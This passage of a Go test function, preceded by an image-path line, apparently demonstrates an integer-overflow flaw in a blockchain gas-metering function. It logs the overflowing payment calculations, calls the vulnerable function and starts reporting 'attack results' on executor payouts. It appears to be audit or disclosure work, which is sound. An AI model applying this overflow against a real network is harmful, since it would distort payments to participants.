 ```go
	)

	// Record initial state
	initialExecGas := gasMeter.RemainingExecGas()

	t.Logf("Initial exec gas: %d", initialExecGas)
	t.Logf("Testing with gasReports: %v", gasReports)

	// Calculate and log potential vulnerable operations before executing
	medianIndex := len(gasReports) / 2
	medianGasUsed := gasReports[medianIndex]
	lowestReport := gasReports[0]
	for _, report := range gasReports[1:] {
		if report < lowestReport {
			lowestReport = report
		}
	}

	t.Logf("\n--- VULNERABLE CALCULATIONS ---")
	t.Logf("Median gas used: %d", medianGasUsed)
	t.Logf("Lowest report: %d", lowestReport)

	// Demonstrate the specific calculations that will overflow
	t.Logf("Vulnerable calculation 1: medianGasUsed*uint64(replicationFactor-1) = %d*%d",
		medianGasUsed, uint64(replicationFactor-1))

	var calcResult uint64
	if medianGasUsed == overflowValue {
		t.Logf("This would overflow! Max uint64: %d", maxUint64Value)
		t.Logf("Actual result after overflow: %d", overflowValue*uint64(replicationFactor-1))
		calcResult = overflowValue * uint64(replicationFactor-1)
	} else {
		calcResult = medianGasUsed * uint64(replicationFactor-1)
		t.Logf("Result: %d", calcResult)
	}

	t.Logf("Vulnerable calculation 2: lowestReport*2 = %d*2", lowestReport)
	if lowestReport > maxUint64Value/2 {
		t.Logf("This would overflow! Max uint64: %d", maxUint64Value)
		t.Logf("Actual result after overflow: %d", lowestReport*2)
	} else {
		t.Logf("Result: %d", lowestReport*2)
	}

	t.Logf("Vulnerable calculation 3: totalGasUsed := medianGasUsed*uint64(replicationFactor-1) + min(lowestReport*2, medianGasUsed)")
	t.Logf("If any of these operations overflow, the total gas calculation becomes incorrect")
	t.Logf("When converted to tokens this leads to incorrect payments")
	t.Logf("------------------------\n")

	// Call the vulnerable function directly
	keeper.MeterExecutorGasDivergent(executors, gasReports, outliers, replicationFactor, gasMeter)

	// Check state after execution
	finalExecGas := gasMeter.RemainingExecGas()

	// Verify gas consumption and distribution
	gasConsumed := initialExecGas - finalExecGas
	t.Logf("Final exec gas: %d", finalExecGas)
	t.Logf("Gas consumed: %d", gasConsumed)

	// Display executor payouts to check for anomalies
	t.Logf("\n--- ATTACK RESULTS ---")
```